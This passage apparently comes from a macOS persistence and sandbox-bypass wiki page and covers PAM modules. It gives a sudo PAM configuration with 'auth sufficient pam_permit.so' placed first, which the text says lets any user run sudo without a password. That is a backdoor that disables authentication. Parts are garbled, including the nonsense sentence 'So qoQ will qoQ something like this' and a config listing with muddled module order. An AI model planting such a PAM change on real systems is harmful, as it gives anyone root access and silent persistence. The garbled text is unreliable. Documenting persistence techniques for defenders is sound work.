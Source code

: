 {% hint style="warning" %}
Note that the periodic script will be executed as the owner of the script. So if a regular user owns the script, it will be executed as that user (this might prevent privilege escalation attacks).
{% endhint %}

### PAM

Writeup: [Linux Hacktricks PAM](../linux-hardening/linux-post-exploitation/pam-pluggable-authentication-modules.md)\
Writeup: [https://theevilbit.github.io/beyond/beyond\_0005/](https://theevilbit.github.io/beyond/beyond\_0005/)

* Useful to bypass sandbox: [🟠](https://emojipedia.org/large-orange-circle)
* But you need to be root
* TCC bypass: [🔴](https://emojipedia.org/large-red-circle)

#### Location

* Root always required

#### Description & Exploitation

As PAM is more focused in persistence and malware that on easy execution inside macOS, this blog won't give a detailed explanation, read the writeups to understand this technique better.

Check PAM modules with:
```bash
ls -l /etc/pam.d
```
# /etc/pam.d/sudo

auth       sufficient     pam_tid.so
auth       required       pam_permit.so
auth       required       pam_opendirectory.so
auth       required       pam_deny.so
account    required       pam_permit.so
password   required       pam_deny.so
session    required       pam_permit.so

This will allow any user to execute sudo without providing a password. Keep in mind that modifying system files like this can have serious security implications and should only be done in controlled environments for testing purposes.
```bash
auth       sufficient     pam_permit.so
```
So **qoQ** will **qoQ** something like this:
```bash
# sudo: auth account password session
auth       sufficient     pam_permit.so
auth       include        sudo_local
auth       sufficient     pam_smartcard.so
auth       required       pam_opendirectory.so
account    required       pam_permit.so
password   required       pam_deny.so
session    required       pam_permit.so
```
### Authorization Plugins
